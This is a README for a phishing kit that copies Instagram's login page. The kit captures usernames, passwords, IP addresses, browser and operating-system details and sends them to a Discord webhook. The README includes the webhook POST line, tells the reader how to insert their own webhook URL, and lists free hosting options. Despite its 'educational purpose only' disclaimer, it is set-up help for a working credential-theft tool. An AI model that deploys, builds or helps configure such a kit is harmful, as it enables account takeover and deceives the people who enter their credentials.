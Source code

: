 # 📸 Instagram-Like Credential Logger (Educational Purpose Only)

> ⚠️ **Disclaimer**  
> This project is intended strictly for **educational**, **testing**, or **authorized cybersecurity simulations** only. Unauthorized use of this tool for phishing, credential theft, or deception is **illegal** and against GitHub’s and Discord’s terms of service.

---

## 🚀 About the Project

This is a **replica of Instagram's login UI** that logs user credentials and sends them to a specified **Discord webhook** using an embed format. It also captures the **user's IP address**, **browser information**, and **operating system** for simulation of phishing scenarios or penetration testing environments.

---

## 🖥️ Interface Of Phishing Site:

![screenshot](images/instagram.png) 
![screenshot](images/discord.png) 

---

## 🧰 Features

- 📥 Captures `username` and `password`
- 🌐 Logs user's **IP address**
- 🖥️ Logs **Browser** and **Operating System**
- 📤 Sends all data via **Discord Embed** with rich formatting
- 🪞 Fully responsive and styled to match Instagram login UI
- ⏳ Includes redirect delay (2 seconds) after login
- 🌐 Easily hosted on GitHub Pages, Netlify, or localhost

---

## 🛠️ Discord Webhook Setup Instructions

### 1. Locate the Webhook Function

- Open the `index.html` file in your code editor.
- Scroll down to find the `sendMessage()` JavaScript function.

### 2. Update the Webhook URL

Inside the `sendMessage()` function, look for this line:

request.open("POST", "https://discord.com/api/webhooks/...");

- Replace it with your actual Discord webhook URL. You can create one via:
- Discord → Server Settings → Integrations → Webhooks → New Webhook
- Then update the code
